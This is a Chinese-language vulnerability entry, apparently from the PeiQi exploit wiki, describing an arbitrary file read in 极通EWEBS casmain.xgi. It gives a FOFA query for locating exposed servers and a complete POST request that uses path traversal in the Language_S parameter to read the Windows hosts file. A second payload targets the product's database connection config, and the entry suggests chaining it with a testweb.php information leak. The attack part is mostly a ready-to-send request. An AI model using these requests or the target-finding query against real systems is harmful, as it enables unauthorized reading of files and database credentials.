 ```yaml
---
title: 极通EWEBS casmain.xgi 任意文件读取漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 极通EWEBS
---
```


# 极通EWEBS casmain.xgi 任意文件读取漏洞

## 漏洞描述

极通EWEBS casmain.xgi 任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

> [!NOTE]
>
> 极通EWEBS

## FOFA

> [!NOTE]
>
> app="新软科技-极通EWEBS"

## 漏洞复现

登录页面如下

![image-20210615125923544](/img/20210924020315406305.png)

漏洞请求包为

```
POST /casmain.xgi HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=923b86fa90ce1e14c82d4e36d1adc528; CookieLanguageName=ZH-CN
Content-Length: 57

Language_S=../../../../windows/system32/drivers/etc/hosts
```

![image-20210615130137932](/img/20210924020317150276.png)

可以配合 testweb.php 信息泄露读取敏感信息

```
Language_S=../../Data/CONFIG/CasDbCnn.dat
```

